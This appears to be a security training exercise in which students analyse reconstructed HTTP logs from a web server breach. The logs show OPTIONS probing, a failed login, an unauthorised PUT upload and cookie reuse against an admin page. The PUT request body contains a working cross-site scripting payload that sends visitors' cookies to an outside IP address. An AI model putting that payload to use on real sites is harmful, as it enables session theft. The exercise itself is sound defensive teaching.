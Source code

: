 ## Activity File: HTTP Requests and Responses

In this activity, you will be playing the role of a web app security engineer.

- There was a recent breach in one of your company's HTTP servers. Before the server went down, a suspicious IP address sent it a rapid sequence of requests and responses.
- The administrators of the web server attempted to recover and reconstruct much of the client-server HTTP request and response traffic.
- You are tasked with investigating the remaining HTTP logs in order to figure out what happened during the attack on the web server.

Use the [HTTP Reference Sheet](./HTTP_Reference.md) while working on this activity. 

:books: Use the following URL to learn about how web-based cross-site scripting attacks are used to steal cookies: [Geeks for Geeks: Cookie Tracking and Stealing Using Cross-Site Scripting Tracking](https://www.geeksforgeeks.org/cookie-tracking-stealing-using-cross-site-scripting/). 

- The information will be useful for answering the upcoming questions. Search the internet for "cross-site scripting cookie stealing" if you still need more resources.

### Instructions

The partially reconstructed HTTP requests and responses below were, at some point, exchanged with the suspicious IP address. A lot of requests and responses are missing, so we can only partially understand the attack. 

Review the partially reconstructed HTTP requests and responses. Answer the questions to figure out what happened during the breach on your company's web server.

1. The following partial response was sent to the suspicious IP address. The request was completely lost and unrecoverable.

   **HTTP Response 1**

     ```HTTP
     HTTP/1.1 200 OK
     Date: Tue, 25 Sep 2018 21:21:20 GMT
     Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
     WWW-Authenticate: Cookie realm="fakesite"
     Allow: OPTIONS, GET, POST, HEAD, PUT
     ```

   - **Question:** What kind of request was used here that would cause an HTTP server to tell the client all of the HTTP request methods it will respond to?

   - **Analysis:** Do you think this HTTP request method can be used by an attacker to gather information about an HTTP server? Why or why not?

2. The system admins reported some corrupted HTTP traffic that occurred before the following recovered response:

   **HTTP Response 2**

     ```HTTP
     HTTP/1.1 401 Unauthorized
     WWW-Authenticate: Cookie realm="fakesite"
             form-action="/login"
             cookie-name=AUTH-COOKIE
     Content-Type: text/html

     <title>Unauthorized</title>
     <form action="/login" method=POST>
     <input type=hidden name=referer value="/fakesite/">
     <p><label>Username: <input name=user></label>
     <p><label>Password: <input name=pwd type=password></label>
     <p><button type=submit>Sign in</button>
     <p><a href="/register">Register for an account</a>
     </form>
     ```

   - **Questions:** 
      - What status code was returned in this response?
      - According to the response body, what kind of method was used to generate this HTTP response?
     - What sort of information was input to this HTTP request?

   - **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   **Questions:** 
      - What type of method was used in the request?
      - What file name was uploaded to the site, according to the request body?

   **Analysis:** 
      - Based on the request method and request body, what do you think happened here? 
      - How did the server respond?

4. The next partial request and header was received by our HTTP server. The data after this log was completely lost:

   **HTTP Response 4**

     ```HTTP
     GET https://www.fakesite.com/admin HTTP/1.1
     Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
     ```

   **Question:** Look back at the previous response (HTTP Response 3). What request and headers are seen in this GET request?
    
    **Analysis:** Is there anything interesting about the URL requested?
    
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
